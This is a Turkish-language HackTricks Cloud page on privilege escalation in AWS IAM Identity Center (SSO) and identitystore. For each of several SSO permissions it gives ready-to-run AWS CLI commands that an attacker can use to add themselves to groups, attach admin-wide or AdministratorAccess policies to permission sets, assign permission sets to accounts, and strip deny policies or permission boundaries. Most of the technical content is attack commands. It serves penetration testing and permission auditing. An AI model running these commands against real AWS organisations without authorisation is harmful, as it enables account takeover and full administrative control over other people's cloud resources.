 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**Varsayılan** olarak, yalnızca **Yönetim Hesabı**'ndan izinleri olan **kullanıcılar**, **IAM Identity Center**'a erişebilecek ve **kontrol edebilecektir**.\
Diğer hesaplardan kullanıcılar, yalnızca hesap **Delegated Adminstrator** ise bunu yapabilir.\
[Daha fazla bilgi için belgeleri kontrol edin.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Şifreyi Sıfırla~~

Bu tür durumlarda ayrıcalıkları artırmanın kolay bir yolu, kullanıcıların şifrelerini sıfırlamalarına izin veren bir izne sahip olmaktır. Ne yazık ki, kullanıcının şifresini sıfırlamak için yalnızca kullanıcıya bir e-posta göndermek mümkündür, bu nedenle kullanıcının e-posta erişimine ihtiyacınız olacaktır.

### `identitystore:CreateGroupMembership`

Bu izinle, bir kullanıcıyı bir gruba eklemek mümkündür, böylece grup tarafından sahip olunan tüm izinleri miras alır. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% hint style="warning" %}
Bu izinleri kötüye kullanmak için, etkilenecek olan **TÜM hesaplar içinde bulunan bir müşteri yönetimli politikanın adını** bilmeniz gerekir.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya bir hesap için bir İzin Seti verebilir.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Kullanıcıya atanmış belirli bir rol adı için STS kısa vadeli kimlik bilgilerini döndürür.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ancak, nasıl alacağım konusunda emin olmadığım bir erişim belirtecine ihtiyacınız var (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir AWS yönetilen politikasının ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı ayırarak (reddetme politikası)** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir Müşteri yönetimli politikanın ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı (reddetme politikası) ayırarak** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden bir satır içi politikadan izinleri kaldırma işlemi gerçekleştirebilir. **Bir satır içi politikayı (reddetme politikası) ayırarak daha fazla ayrıcalık vermek mümkündür.**

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden İzin Sınırını kaldırabilir. İzin Sınırından verilen İzin Setindeki kısıtlamaları kaldırarak **daha fazla ayrıcalık vermek mümkündür**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
